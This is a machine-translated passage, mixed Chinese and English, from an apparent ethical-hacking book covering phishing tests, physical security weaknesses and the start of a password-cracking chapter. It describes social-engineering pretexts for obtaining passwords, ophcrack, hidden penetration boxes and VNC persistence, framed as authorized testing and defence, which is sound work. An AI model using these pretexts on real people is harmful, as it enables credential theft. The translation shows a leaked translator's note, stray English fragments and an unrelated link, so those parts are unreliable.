无论是当今快节奏的商业环境、普通用户的易受性，还是 outright 无知，平均每个人对钓鱼邮件的易感性都惊人。一封很有可能被打开并回复的钓鱼邮件会制造紧迫感，并提供只有内部人员才知道的信息。许多钓鱼邮件因为以下特征很容易被识别：

*   包含拼写错误。

*   使用通用称呼和邮件签名。

*   要求用户点击链接。

*   索要敏感信息。

更正式的钓鱼测试可以使用专门的工具。网络上可商用的选项包括 LUCY (`https://www.lucysecurity.com`) 和 Cofense（前身为 Phishme，`https://cofense.com`）。这些电子邮件钓鱼平台提供预装的邮件模板，能够 `抓取`（复制）真实网站的内容以便自定义你的攻击，并提供多种报告功能，让你跟踪哪些用户中了圈。它们还将认知和培训整合到系统中，以便在用户点击或泄露信息后对其进行教育。

我使用 LUCY（如在 图 6-1 所示）进行电子邮件钓鱼测试。我发现该平台强大且支持顶级。



FIGURE 6-1:  使用 LUCY 开始电子邮件钓鱼攻击。

Figure 6-2 展示了 LUCY 可发起的各种钓鱼攻击样本，包括恶意软件模拟和短信钓鱼（smishing），后者是一项特别有趣的练习。



FIGURE 6-2:  LUCY 中的各种电子邮件钓鱼模板示例。

## 社交工程防范措施

你只有几条有效的防范线来应对社交工程。社交工程是你分层防御的真正考验。即使拥有强大的安全控制，一个天真或未受培训的用户仍可能让社交工程师进入网络。永远不要低估社交工程师的力量——以及他们利用用户易受性的作用。

### 政策

具体的政策有助于在长期内防御社交工程，具体包括：

*   对信息进行分类，使得用户只能访问其所需的信息级别

*   在招聘员工或承包商时建立用户 ID

*   制定员工同意的可接受计算机使用政策

*   对不再为组织工作的员工、承包商和顾问撤销用户 ID

*   设置并重置强密码

*   快速响应安全事件，如异常行为和已知恶意软件感染

*   正确处理专有和机密信息

*   在建筑物内接待访客

这些政策必须对组织内的所有人可执行 *并且* 被执行。保持它们的更新，告知用户，并且（最重要的是）进行测试。

### 用户意识与培训

对抗社交工程的最佳防线是培训员工识别和应对社交工程攻击。用户意识从人人接受的初始培训开始，随后通过安全意识活动保持防御新鲜。将培训与特定安全政策同步。你可能还需要制定专门的安全培训与意识政策。


考虑外包给经验丰富的安全培训师进行安全培训。员工往往更认真对待来自外部的培训，就像家人或配偶可能忽视你说的话，但如果由其他人说出同样的话，他们就会更加在意。仅此一点，外包安全培训的投资就值得。

在组织内持续进行用户培训和意识提升时，以下建议有助于长期对抗社会工程攻击：

* 将安全意识和培训视为一项业务投资。
* 持续对用户进行培训，以保持安全意识常在其心中。
* 在每个人的职位描述中，加入信息隐私和安全任务及职责。
* 可能时，根据受众定制内容。
* 为业务职能和用户角色创建社会工程意识培训计划。
* 尽可能保持信息简洁，避免技术性术语。
* 为防止和报告事件，开发激励措施。
* 榜样示范。

向用户分享以下建议，帮助防范社会工程攻击：

* **除非能确认请求信息的人需要该信息且是他们声称的人，否则切勿泄露任何信息。** 如果请求是通过电话提出的，请验证来电者的身份，并回拨。
* **切勿点击声称会加载需要更新信息的页面的电子邮件链接。** 这一警告尤其适用于未经请求的邮件，因为在移动设备上，用户往往看不到链接会去向何处。
* **鼓励用户验证 bit.ly、ow.ly 等缩短链接的安全性或合法性。** 如需确认，可使用 `www.checkshorturl.com` 和 `http://wheredoesthislinkgo.com` 等网站提供的服务。
* **在 Facebook 或 LinkedIn 等社交网络上谨慎分享个人信息。** 同时，要警惕声称认识你或想成为你朋友的人，他们的意图可能是恶意的。
* **在建筑内请所有访客陪同。** 虽然这可能不符合公司文化或难以实现，但它能有效降低社会工程风险。
* **切勿打开陌生人的电子邮件附件或其他文件，即使是你认识的人也要格外小心。** 这一措施本身就能防止无数安全事件和泄露。

其他一般性建议也能帮助防御社会工程攻击：

* **切勿让陌生人连接到你的网络端口或内部无线网络，哪怕只有几秒钟。** 恶意人员可能在短时间内安装窃听设备、部署恶意软件，或设置远程可访问的后门。
* **分类你的信息资产，包括纸质和电子版。** 培训所有员工如何处理每种资产类型。
* **制定并执行媒体销毁政策。** 这些政策（针对计算机媒体和文档）确保数据得到妥善处理，并留在应有的位置。有关政策的信息来源可参考 `www.pdaconsulting.com/datadp.htm`。
* **使用交叉切割碎纸机。** 更佳的是，聘请专注于机密文件销毁的文件销毁公司。

用于加强正式培训内容的技巧包括：

* 新员工入职培训、培训午餐、邮件和通讯。
* 包含技巧和常见问题解答的社会工程生存手册。
* 如屏幕保护贴、鼠标垫、便签、笔、办公海报等小物件，上面印有强化安全原则的信息。

下面的附录列出了我最喜欢的培训小物件和工具供应商，帮助提升组织的安全意识和教育水平。

第 7 章

#### 物理安全

## 本章内容

`理解物理安全的重要性`

`寻找物理安全漏洞`

`实施物理安全攻击的对策`

我强烈相信，信息安全更依赖于 IT 和安全的非技术性方面，而不是许多人和供应商炫耀的技术硬件和软件解决方案。*物理安全*——即对实物资产的保护——既包含技术性也包含非技术性的组成部分，两者都必须得到解决。

物理安全是信息安全程序中常被忽视但至关重要的组成部分。你能否保护信息，很大程度上取决于你能否物理上保护办公室、建筑或校园。本章将介绍一些与计算机和信息安全相关的常见物理安全弱点，并提供免费或低成本的对策，帮助你减少业务的物理漏洞。

我不建议进行“破门而入”，这将是彻底测试某些物理安全漏洞的必要手段。*我不要你被枪击或入狱！* 请改为评估这些区域在实际操作中能达到多远。换个外人的视角，重新审视本章涵盖的物理安全漏洞。你可能会发现此前曾被忽视的物理安全弱点。

## 识别基础物理安全漏洞

无论安全技术多么先进，只要攻击者进入你的建筑或数据中心，几乎任何 breach 都有可能发生。因此，在漏洞被利用之前识别并修复物理安全漏洞至关重要。

在小型公司，某些物理安全问题可能不构成大问题。许多物理安全漏洞受以下因素影响：

* 建筑规模。
* 建筑数量或办公地点数量。
* 员工人数。
* 是否有前台接待人员或保安。
* 建筑入口和出口的位置及数量。
* 服务器机房、布线间和数据中心的位置和数量。

数千种可能的物理安全弱点存在。攻击者始终在寻找这些弱点，因此你应优先关注以下问题。以下是我在为客户进行安全评估时发现的一些典型物理安全漏洞：

* 缺少前台接待人员或保安，无法监控进出人员。
* 缺少访客登记或对进入建筑的访客要求陪同（或执行）的制度。
* 员工对穿着厂商制服或声称要维修复印机或电脑的访客过于信任。
* 门锁没有访问控制，或使用传统钥匙，钥匙可随意复制且缺乏追责。
* 门被长时间 propped open（撑开）。
* 通过网络对 IP 视频、访问控制和数据中心管理系统开放，且使用默认用户名和密码。
* 公开可进入的计算机室。
* 备份媒体（磁带、硬盘、光盘/DVD）未加密或未妥善存放。
* 敏感信息以纸质形式散落在工作区，未放入上锁的文件柜中。
* 电脑硬件（尤其是路由器、交换机和未加密笔记本电脑）未受保护。
* 敏感信息被随意丢弃在垃圾桶中，而非进行碎纸或放入专用容器。

当这些物理安全漏洞被发现时，危害可能会发生。只需一个有恶意意图的未经授权人员，就能利用这些弱点。


## 定位办公室中的物理弱点

许多潜在的物理安全漏洞看似不太可能发生，但如果组织不重视风险，仍可能遭到攻击。恶意人员可以利用多种漏洞，包括建筑设施弱点、办公布局、计算机室访问控制以及设计缺陷。此外，还应考虑设施距离当地紧急救援（警察、消防、救护）的远近，以及当地的犯罪统计（入室盗窃、抢劫等），以便更好地了解面对的威胁。

在评估组织的物理安全时，请查找下面章节中讨论的漏洞。此调研不需要高超的技术背景或昂贵的设备，且根据办公室或设施的规模，测试所需时间通常不长。核心是判断物理安全控制是否足够，结合当前风险来看。最重要的是，保持实用，运用常识。

### 建筑设施

门、窗和墙体是建筑的关键组成部分，尤其是在数据中心或存储机密信息的区域。

#### 攻击点

攻击者可以利用建筑设施的弱点。请自问以下关于常被忽视的攻击点：

*   门是否被顶开，如果是，原因是什么？

*   关键门的底部是否有缝隙？（缝隙可能让人使用气球等装置触发房间内的传感器，从而绕过看似安全的门。）

*   是否很容易用力撬开门？（普通门一般只需在把手附近轻轻一脚即可打开。）

*   建筑或数据中心的材料是什么（钢、木材、混凝土），墙体和入口有多坚固？需要评估其抗震、抗龙卷风、抗强风、抗大雨以及车辆冲撞的能力，并判断这些灾害是否会导致建筑暴露，使恶意人员能够进入计算机室或其他关键区域。

*   是否有玻璃门或窗，玻璃是否透明、防碎或防弹？

*   门外的铰链是否让入侵者容易拆卸？

*   门、窗等入口是否与报警系统联动？

*   建筑是否设有可直接抬起的下沉天花板瓷砖？

*   建筑是否为从地面到天花的整体墙体？（如果不是，攻击者可以轻易攀爬墙体，绕过门窗的访问控制。）

#### 防护措施

针对建筑设施的物理安全防护通常需要其他维护、建设或运营专家的参与。如果建筑设施不是你的强项，可在设计、评估和 retrofitting（后装）阶段聘请外部专家，确保拥有足够的控制措施。以下是一些最佳做法：

*   加强门和锁具。

*   安装运动感应器。

*   部署摄像头，既可威慑犯罪，又能实时捕捉嫌疑人，或为事后取证。

*   为数据中心设置无窗墙体。

*   使用标识明确标示位置及谁有进入权限。

*   实施持续监控的报警系统，配合网络摄像头覆盖所有出入口。

*   保持良好照明，尤其是入口和出口附近。

*   设计只允许一人通过门的入口。

*   安装围栏（必要时加装带刺或刺绳的铁丝网）。

### 公用设施

在评估物理安全时，必须考虑建筑及数据中心的公用设施，如电力、供水、备用发电机和灭火系统。这些设施可在事故发生时帮助你维持其他访问控制的运行，但如果不慎被恶意人员利用，也可能成为攻击手段。

#### 攻击点

攻击者常利用公用设施相关的漏洞。请自问以下关于常被忽视的攻击点：

*   是否配备了电涌保护装置、不间断电源（UPS）以及备用发电机？这些设备的开关是否易于被入侵者触及——比如可以直接闯入翻转开关，或攀爬围栏切断锁具从而接触关键设备。

*   当电力中断时，物理安全机制是“打开”（让任何人通过）还是“关闭”（在电力恢复前锁定进出）？我见过两种情况，需要明确其具体表现。

*   火灾探测与灭火设备（感烟探测器、灭火器、喷淋系统）的位置在哪里？入侵者可能如何滥用这些设备？是否通过无线或本地网络（默认登录凭据）或互联网访问？是否放置在可能在误报时对电子设备造成损害的位置？

*   水阀和燃气阀的位置在哪里？是否可以自行接近，还是需要联系维护人员才能操作？

*   建筑外部的本地电信线路（铜缆和光纤）在哪里？如果是地面敷设，可用电信工具进行窃听；如果是埋地，挖掘可能导致线路被切断；如果位于电话杆上，则易受交通事故或恶劣天气影响。

#### 防护措施

可能需要在设计、评估或 retrofitting 阶段引入外部专家。关键在于**位置**。请确保以下要点：

*   将主要公用控制设施置于可上锁的门后或围栏内，且不在行人视线范围内。

*   配置足够数量的摄像头，确保覆盖面广。

*   对任何可通过网络或互联网访问的设备，使用漏洞扫描等手段进行测试。若设备不必联网，可关闭网络功能或通过防火墙规则、网络访问控制列表（NACL）限制访问权限。

*   确保行人或附近的人员无法接触到并操作这些控制开关。

对开关、恒温器开关以及服务器电源按钮、USB 接口、PCI 扩展插槽的防护盖可以有效阻挡未经授权的操作。但切勿完全依赖它们，因为往往可以被轻易撬开。

我曾为一家大型计算机公司评估其互联网数据中心的物理安全。我轻易越过了前台守卫，尾随通过所有受控门进入数据中心。进入内部后，看到大量公司资产（服务器、路由器、防火墙、UPS、电源线）公开放置，任何在该区域行走的人都能随意接触。只需轻轻一拨开关，或因地上垂挂的网线绊倒，整排设备——甚至全球电商系统——可能瞬间瘫痪。请不要在类似环境中托管您的系统！

### 办公布局与使用

办公设计与使用方式可助或妨碍物理安全。

#### 攻击点

攻击者可以利用办公环境中的各种弱点。请自问以下关于常见攻击点的问题：

*   前台或保安是否监控建筑主门的出入流量？

*   员工的工作台上是否放有机密信息？需要检查是否有邮件、包裹等物品位于门外，或更糟的是在建筑外等待取件。


-   [垃圾桶、回收箱、碎纸机的位置在哪里，并且是否容易取用？公开的回收箱和其他随意丢弃的垃圾会招致所谓的“dumpster diving”。恶意人员经常在垃圾中搜寻机密公司信息和客户记录，并且往往能够成功。易于取用的垃圾会导致众多安全漏洞。  

-   邮件室和复印室的安全程度如何？如果入侵者能够进入这些房间，他们可以窃取邮件或公司信纸来针对你进行攻击。他们也可以利用并滥用你的传真机（假设你仍在使用！）。  

-   是否使用并实时监控闭路电视或基于 IP 的网络摄像头？如果你的部署方式不够主动，而是按需使用，你必须确保在需要时能够快速访问视频和相关日志。  

-   你的网络摄像头和数字视频录像机是否已硬化以抵御攻击，或者至少已将默认登录凭据更改？这一安全漏洞几乎可以肯定出现在几乎所有类型的网络、公用事业公司、医院、制造企业以及其他所有类型的企业中。  

-   门上的访问控制有哪些：传统钥匙、卡片钥匙、组合锁还是生物识别？确定谁可以获取钥匙以及它们存放在哪里。钥匙和可编程键盘组合通常会被共享，导致问责难以确定。找出有多少人共享这些组合和钥匙。  

-   我曾有一位客户，其前台大堂未受监控，并且提供了任何人都可以使用的 Voice over Internet Protocol（VoIP）电话。客户没有考虑到任何人都可以进入大堂，拔掉 VoIP 电话（或使用电话的数据端口），将笔记本电脑插入连接，从而在极小的被发现或质疑的概率下获得对网络的完整访问。此类情况易于防范：如果分别使用数据和语音端口，或在交换机或物理网络层面将语音和数据流分离，则在未受监控区域禁用网络连接。  

#### Countermeasures

-   物理安全面临的挑战是安全控制往往是被动的。有些控制是预防性的（即它们能够阻止或无限期延迟），但它们并非万无一失。制定如下简单措施可以降低建筑和办公室相关的漏洞暴露：  

    -   一位接待员或保安人员监控来往人员是最简便的防护措施。此人可以确保每位访客签到，并且所有新来的或不受信任的访客始终受到接待。制定政策和程序，要求所有员工对陌生人提出质疑并报告建筑内的异常行为。  

    -   *Employees Only* 或 *Authorized Personnel Only* 标识指示坏 guys 应该去的地方，而不是阻止他们进入。不引起对关键区域的注意可能是更好的做法。  

    -   在数据中心设置单一入口和出口。  

    -   将垃圾桶放置在安全区域内。  

    -   使用摄像头监控关键区域，包括垃圾桶。（摄像头如何影响潜在犯罪者的行为真是令人惊讶。）  

    -   使用交叉切碎机或安全回收箱销毁纸质文件。  

    -   限制钥匙分发数量和共享密码组合的数量，并确保访问日志已记录并受监控。  

    -   尽可能为每个人分配唯一的钥匙和密码，或（更好）根本不使用钥匙和密码。取而代之，使用可以更好控制和监控的电子徽章。  

    -   使用生物识别系统。它们可以有效，但也可能昂贵且难以管理。  

-   网络组件和计算机  

    -   入侵者在获得建筑进入后，可能会寻找服务器机房以及其他易于接近的计算机和网络设备。  

-   攻击点  

    -   通往王国的钥匙往往就在某人的工作站上，距离不远，甚至不超过未受保护的计算机室或布线间。  

    -   入侵者可以做到以下行为：  

        -   获得网络访问权限并以已登录用户身份发送恶意邮件。  

        -   通过 ophcrack LiveCD（[`ophcrack.sourceforge.net`](http://ophcrack.sourceforge.net)）启动计算机，直接破解并获取密码。我在第 8 章（Chapter 8）中介绍了该工具及更多密码破解技巧。  

        -   在标准电源插座中放置像 Pwnie Express（[`www.pwnieexpress.com`](https://www.pwnieexpress.com)）制造的渗透盒，这些设备可以通过蜂窝连接访问系统并执行恶意操作。这种隐蔽的入侵方式可以作为你自己的安全测试的一部分使用。  

        -   通过复制文件到可移动存储设备（如手机或 USB 驱动）或通过电子邮件将其发送到外部地址来窃取文件。  

        -   进入未上锁的计算机室，对服务器、防火墙和路由器进行操作。  

        -   带走网络图、联系人列表和灾难恢复计划。  

        -   从模拟线路获取电话号码，从 T1、Metro Ethernet 及其他电信设备获取电路 ID，以便在后续攻击中使用。  

    -   几乎所有未加密的网络传输信息都可以通过以下方法记录以供将来分析：  

        -   将一台运行网络分析软件的计算机（包括像 Cain and Abel 这样的工具，我在第 9 章（Chapter 9）中介绍）连接到网络交换机上  

        -   在已有计算机上安装网络分析软件  

    -    网络分析仪难以被发现。我在第 9 章（Chapter 9）中对分析仪在交换以太网网络上捕获数据包的细节进行了更深入的说明。  

    -   那么，如何在未来利用这些信息？最简便的攻击方式是在这台计算机上安装远程管理软件，例如 VNC（[`www.realvnc.com`](https://www.realvnc.com/en/)）。此外，有足够时间和技巧的聪明黑客可以在防火墙之外为该计算机绑定公共 IP 地址。拥有足够的网络知识和时间，黑客或恶意内部人员可以配置新的防火墙规则，如果他们拥有防火墙的访问权限。别小看这点；我经常看到使用默认密码的防火墙，这几乎是安全最差的状态。  

    -   还要向自己提问以下关于常见物理漏洞的问题：  

        -   在正常工作时间、午餐时间以及下班后，计算机可以有多容易被访问？  

        -   计算机（尤其是笔记本电脑）是否通过锁定固定在桌面上、配有加密硬盘以及在短时间不使用后锁定屏幕来得到保护？  

        -   员工是否经常在旅行、在家工作、酒店或当地咖啡店时，将手机和平板电脑随意留在未受保护的状态下？  

        -   密码是否写在电脑屏幕、键盘或桌面的便签上？（这在 IT 圈子里一直是个玩笑，但仍然时有发生。）  

        -   备份介质是否散落在办公室或数据中心，容易受到盗窃？  

        -   用于保护备份介质的保险箱是否被使用，以及谁可以访问它们？  

    -   保险箱往往面临很大风险，因为它们体积大且价值高，且通常不受组织常规安全控制的保护。考虑制定专门的政策和技术，以保护它们。  

    -    保险箱应专门为介质设计，以防止在火灾中熔化；例如 FireKing 保险箱（[`www.fireking.com/products/safes/data-safes`](https://www.fireking.com/products/safes/data-safes)）。  


-   [是否需要锁定笔记本电脑包？关于开机密码呢？加密可以解决很多与物理安全相关的弱点。](https://wiki.example.org/feynmans_learning_method)

-   有人可以多么轻松地连接到无线接入点信号或接入点本身以加入网络？还需要考虑恶意接入点。我在第 10 章中详细介绍了无线网络。

-   网络防火墙、路由器、交换机和集线器（基本上，任何有以太网或控制台连接的设备）是否容易被访问，从而让攻击者轻松插入网络？

-   所有的电缆是否都通过在布线橱柜的配线板上连接，使得所有的网络插口都处于活动状态（如前面提到的未受监控的大堂区域）？

这套配置虽然常见，但却是个坏主意，因为它允许任何人随时插入网络并获得访问权限，同时也能传播恶意软件。

#### Countermeasures

网络和计算机安全防护措施虽然实施简单，但难以执行，因为它们涉及日常行为。下面是这些防护措施的清单：

- 让用户了解需要注意的事项，从而拥有额外的“眼睛和耳朵”帮助你发现问题。
- 要求用户在离开电脑时锁定屏幕——只需几次点击或键盘操作即可完成。更进一步，可在 Active Directory 或本地计算机策略中设置组策略对象（GPO）强制设置超时。
- 确保使用强密码。（我在第 8 章中介绍了该主题。）
- 要求笔记本电脑用户使用锁定电缆将系统固定在书桌上——这对远程工作者、旅行者以及大型公司的员工以及经常在人流密集的场所工作的人来说尤为重要。
- 要求所有笔记本电脑使用全盘加密技术。例如 Windows 的 BitLocker（最好配合 Microsoft BitLocker Administration and Monitoring 管理软件，网址为[`https://docs.microsoft.com/en-us/microsoft-desktop-optimization-pack/mbam-v25/`](https://docs.microsoft.com/en-us/microsoft-desktop-optimization-pack/mbam-v25/)），另一个选项是 WinMagic SecureDoc Full Disk Encryption（网址为[`https://www.winmagic.com/products/full-disk-encryption-for-windows`](https://www.winmagic.com/products/full-disk-encryption-for-windows)）。macOS 内置的 FileVault 也是适用于日益增长的此类计算机的方案。同时，还应考虑对可移动介质进行加密，因为敏感信息必然会在那里。

- 保持服务器机房和布线橱柜上锁，并监控这些区域的任何不当行为。
- 保持组织内硬件和软件的当前清单，以便轻松发现额外设备的出现或丢失——尤其是在计算机室中非常重要。
- 用更现代的访问控制系统取代传统的门锁和钥匙。
- 在存储和运输过程中妥善保护计算媒体。
- 扫描并关闭恶意无线接入点。
- 使用线缆陷阱和锁具，防止入侵者从配线板或计算机上拔掉网络线并利用该连接接入其他设备。
- 对磁介质使用大容量擦除工具，并在销毁前将其粉碎。

Chapter 8

## Passwords

IN THIS CHAPTER

`Identifying password vulnerabilities`

`Examining password-hacking tools and techniques`

`Hacking operating system passwords`

`Hacking password-protected files`

`Protecting your systems from password hacking`

Password hacking is one of the easiest and most common ways that attackers obtain unauthorized network, computer, or application access. You often hear about it in the headlines, and study after study, such as the `Verizon Data Breach Investigations Report`, reaffirms that weak passwords are at the root of many security problems. I have trouble wrapping my head around the fact that I’m `still` talking about (and businesses are suffering from) weak passwords, but that fact is a reality. As an information security testing professional, you can certainly do your part to minimize the risks.

Although strong passwords — ideally, longer, stronger passphrases, which are difficult to crack (or guess) — are easy to create and maintain, network administrators and users often neglect this aspect of password management. Therefore, passwords are among the weakest links in the information security chain. Passwords rely on secrecy. After a password is compromised, its original owner isn’t the only person who can access the system with it. That’s when accountability goes out the window and bad things start happening.

External attackers and malicious insiders have many ways to obtain passwords. They can glean passwords simply by asking for them or by looking over the shoulders of users *(shoulder surfing)* while they type their passwords. Hackers can also obtain passwords from local computers by using password-cracking software. To obtain passwords from across a network, attackers can use remote cracking utilities, keyloggers, or network analyzers.

This chapter demonstrates how easily the bad guys can gather password information from your network and computer systems. I outline common password vulnerabilities and describe countermeasures that help prevent these vulnerabilities from being exploited on your systems. If you perform the tests and implement the countermeasures outlined in this chapter, you’ll be well on your way to securing your systems’ passwords.

## Understanding Password Vulnerabilities

When you balance the cost of security and the value of the protected information, the combination of a user id and a secret password is usually adequate. Passwords create a false sense of security, however, as the bad guys know, and they attempt to crack passwords as a step toward breaking into computer systems.

One big problem with relying solely on passwords for security is that more than one person can know them. Sometimes, multiple people knowing a password is intentional; often, it’s not. The tough part is that there’s no way of knowing who, besides the password’s owner, knows a password.

Knowing a password doesn’t make someone an authorized user.

Here are the two general types of password vulnerabilities:

- **Organizational or user vulnerabilities:** Include lack of password policies that are enforced within the organization and lack of security awareness on the part of users
- **Technical vulnerabilities:** Include weak encryption methods and unsecure storage of passwords on computer systems

I explore these classifications in more detail in the following sections.

Before computer networks and the Internet, the user’s physical environment was an additional layer of password security that worked pretty well. Now that most computers have network connectivity, that protection is gone. Chapter 7 provides details on managing physical security in this age of networked computers and mobile devices.

### Organizational password vulnerabilities


它是人类的本性，尤其是在记住工作和日常生活中五、十或数十个密码时，追求便利。这种对便利的渴望使得密码成为攻击者最容易突破的障碍。通过使用 26 个字母和数字 0‑9，几乎可以产生 3 万亿（yes，trillion，带有一个 *t* 且 12 个零）种八位字符的密码组合。强密码易记且难以破解。然而，大多数人只关注记忆容易的部分。用户喜欢使用诸如 `password`、登录名、`abc123` 或甚至**不设密码**的密码！不要笑；我已经看到这些明显的弱点，并保证它们正在当前的任何网络上存在。

除非用户接受教育并被提醒使用强密码，否则他们的密码通常是：

*   **易于猜测：** 诸如“password”或“letmein”这类密码比人们想象的更常见。

*   **很少更改：** 许多人没有被要求定期、持续地更改密码。

*   **多处复用：** 当攻击者破解一个密码后，往往可以利用该密码和用户名访问其他系统或网站。

    在多个系统和网站上使用同一密码不过是一个等待发生的漏洞。每个人都犯过这种事，但这并不意味着它是对的。做你能做的来保护自己的凭证，并向你的用户宣传这种做法如何让你陷入真正的困境。

*   **写在纸上：** 通常，密码越复杂，越难破解。但当用户创建复杂密码时，他们更倾向于将其写下来。外部攻击者和恶意内部人员可以找到这些密码并用它们针对你和你的业务。

### 技术性密码漏洞

你经常在利用组织的密码漏洞后，会发现这些严重的技术漏洞：

*   **密码加密方案较弱。** 黑客可以通过本章所述的 cracking 方法破解弱密码存储机制。许多供应商和开发者认为，只要不公开加密算法的源码，密码就安全。 *错误！* 持续且耐心的攻击者通常可以很快破解这种隐藏在明面的安全措施（security through obscurity），随后代码会在 Internet 上传播，成为公开知识。

    密码 cracking 工具利用弱密码加密。这些工具完成艰巨工作，只要有足够的时间和计算能力，就能破解任何密码。

*   **程序将密码存储在未受保护的内存、文件和易于访问的数据库中。**

*   **未加密的数据库直接让拥有数据库访问权限的人（无论其业务需求如何）都能直接访问敏感信息。**

*   **用户应用在输入密码时会将其显示在屏幕上。**

国家脆弱性数据库（由美国国家标准与技术研究院管理）目前已识别出 **4,000 多条** 与密码相关的漏洞！你可以在 [`https://nvd.nist.gov/vuln/search`](https://nvd.nist.gov/vuln/search) 进行搜索，了解你的系统在密码方面可能面临的风险。

## 破解密码

密码破解是坏 guys 最享受的黑客行为之一，因为它满足了他们的探索欲和解决问题的愿望。你可能没有强烈的愿望去探索所有人的密码，但以这种心态来对待密码破解是有帮助的。

你应该从哪里开始测试系统上的密码？通常，**任何用户的密码**都可以作为起点。获得一个密码后，你往往可以进一步获得其他密码，包括管理员和 root 密码。

**管理员密码是金子**。通过未经授权的管理员访问，你（或恶意黑客）几乎可以在系统上做任何事情。在寻找组织的密码漏洞时，我建议首先尽可能获得最高权限（如域管理员），并尽量使用最隐蔽的方法。这往往是罪犯的做法。

你可以使用低技术和高技术的方式来利用漏洞获取密码。你可以通过电话欺骗用户让其泄露密码；观察用户在纸上写下的密码；或直接在电脑、网络或 Internet 上捕获密码，具体方法在下面的章节中介绍。

### 传统方式破解密码

黑客可以使用低技术手段破解密码，包括通过社交工程技术（如 phishing、肩窥、根据对用户的了解进行猜测）等手段。

#### 社交工程

最流行的低技术密码获取方法是 `social engineering`，我在第 6 章（Chapter 6）中详细说明。社交工程利用人类的信任特性获取信息，随后可用于恶意目的。常见的社交工程手段是诱骗人们透露密码。一封精心撰写的 phishing 邮件，配合 LUCY 这类 phishing 平台，就足以让人们提供登录凭据。听起来荒谬，但我每天都能看到这种情况。

#### 手段

要通过社交工程获取密码，直接询问即可。你可以给用户打电话，告诉他邮件队列中有几封重要的邮件卡住了，需要他的密码来登录并解除阻塞。许多黑客和不法内部人员使用这种技巧获取信息。

另一种让用户泄露密码的方式是发送 phishing 邮件，要求其确认对内部安全政策的理解和遵守，并提交登录凭据到一个 phishing 网站。我发现，只要让用户在 phishing 网站上提交凭据，就足以获取他们的密码。我在第 6 章（Chapter 6）中详细介绍了邮件 phishing。

如果在你的测试中用户向你提供了密码，请确保这些密码被更改。最简便的做法是通过 Windows 域强制所有用户更改密码。不要在密码泄露后对后果负责。

社交工程的常见弱点是公司网站上公开的员工姓名、电话号码和电子邮件地址。社交媒体平台如 LinkedIn、Facebook 和 Twitter 也可以被用来针对公司，因为这些平台能够揭示员工的姓名和联系方式。

#### 对策

用户意识和持续的安全培训是防御社交工程的强大防线。安全工具如果在宿主层、网络边界或云端监控邮件和浏览行为，也能作为备用防线。培训用户识别攻击（如可疑电话或欺骗性 phishing 邮件）并有效应对。最佳响应是**拒绝提供任何信息**，并向组织的信息安全经理报告。同时，将公司网站上的员工目录移除，或至少撤掉 IT 部门人员的信息。

#### 肩窥

*Shoulder surfing*（从他人的肩膀观察其输入内容）是一种有效的低技术密码破解手段。

#### 手段


要发动此攻击，恶意分子必须靠近他们的目标（或使用双筒望远镜等观察工具），并且不显眼。他们只需通过观察用户在登录时的键盘或屏幕来收集密码。有敏锐视力的攻击者甚至可能观察用户是否在桌面周围张望以寻找密码提示或密码本身。监控摄像头或网络摄像头也可以用于此类攻击。咖啡店和飞机提供了理想的“肩窥”环境。

你可以尝试自己进行肩窥。在办公室周围走动，进行随机检查。走到用户的工作站，要求他们登录电脑、网络或甚至电子邮件应用。切记，在进行此测试时要小心，并尊重他人的隐私。

#### COUNTERMEASURES

鼓励用户保持警觉，并告诫他们在怀疑有人在肩后窥视时不要输入密码。指导用户，如果怀疑有人在登录时在肩后窥视，应礼貌地要求对方移开视线，或在必要时用合适的脏话示意对方自己严肃。将身体靠向肩窥者的视线可能是最简单的做法，以防止他看到任何输入内容或屏幕本身。3M 隐私过滤器
```https://www.3m.com/3M/en_US/privacy-screen-protectors-us```
虽然它们效果很好，但令人惊讶的是，我很少看到它们被使用。

#### Inference

*Inference*是根据你对用户的了解（如出生日期、喜欢的电视节目或电话号码）猜测密码。听起来很荒谬，但罪犯常常通过猜测来确定受害者的密码。

对推测攻击的最佳防御是教育用户创建不包含可关联信息的安全密码。在缺乏特定密码复杂度过滤的情况下，很难仅靠技术控制来强制执行这一做法，因此需要制定严谨的安全政策，并通过持续的安全意识培训和提醒，让用户牢记创建安全密码的重要性。

#### Weak authentication

外部攻击者和恶意内部人员可以通过利用弱 authentication 来获取密码或避免使用密码。 (原文此处出现多次 "weak authentication"，但根据注意事项，不需要重复输出原文，故此处省略重复内容)


Some of these tools require physical access to the systems you’re testing. You may be wondering what value physical access adds to password cracking. If a hacker can obtain physical access to your systems and password files, you have more than just basic information security problems to worry about, right? True, but this kind of access is entirely possible! What about a summer intern, a disgruntled employee, or an outside contractor with malicious intent? The mere risk of an unencrypted laptop’s being lost or stolen and falling into the hands of someone with ill intent should be reason enough.

